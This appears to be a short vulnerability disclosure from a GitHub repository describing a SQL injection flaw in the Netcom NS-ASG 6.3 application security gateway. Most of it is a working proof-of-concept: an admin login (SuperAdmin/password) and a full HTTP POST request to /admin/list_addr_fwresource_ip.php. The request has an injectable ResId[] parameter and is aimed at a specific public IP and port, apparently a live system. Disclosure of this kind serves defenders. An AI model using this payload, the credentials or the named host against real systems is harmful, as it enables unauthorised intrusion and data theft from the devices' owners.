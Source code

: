 There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official website:https://www.netentsec.com/

version:NS-ASG 6.3

Vulnerability points：/admin/list_addr_fwresource_ip.php

As follows, there is no validation during the execution of SQL injection 

<img width="664" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/97aff80e-0c1e-4c9c-803e-61ac40c6746d">



account password：SuperAdmin/ password



Log in to the account password, construct a poc, and successfully verify that the parameters exist in SQL injection, revealing the database name

Poc：
```
POST /admin/list_addr_fwresource_ip.php HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=f30e8a16a1b6373bbc11e1ce84445033
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: https://218.75.78.54:4443
Referer: https://218.75.78.54:4443/admin/list_addr_fwresource_ip.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

ResId%5B%5D=13*&action=delete
```
<img width="678" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/66c4dace-0806-41d2-8d9b-2e71ec51ea97">

<img width="650" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/27934c2b-e269-4cca-961a-4e370d4e411b">





